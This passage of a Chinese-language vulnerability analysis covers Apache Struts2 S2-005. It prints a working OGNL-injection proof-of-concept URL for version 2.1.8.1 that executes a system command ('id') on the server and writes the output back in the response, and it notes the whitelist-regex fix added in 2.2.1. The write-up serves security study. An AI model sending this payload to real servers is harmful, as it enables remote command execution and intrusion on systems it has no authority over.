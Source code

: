 <img src="pic/struts2_s2-005_7.png">

后来用Struts2 `2.1.8.1`版本也调了下，发现代码有细微差别。上面的PoC无效。不过实现思路是一样的，改一下即可：

```
/xxx.action?
(a)(%5cu0023_memberAccess.allowStaticMethodAccess%5cu003dtrue)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```

<img src="pic/struts2_s2-005_8.png">

## 漏洞修复

在Struts `2.2.1`版本中，使用了正则表达式匹配白名单字符的方式去校验请求url的参数：

<img src="pic/struts2_s2-005_9.png">

<a name="s2-007"></a>
## S2-007
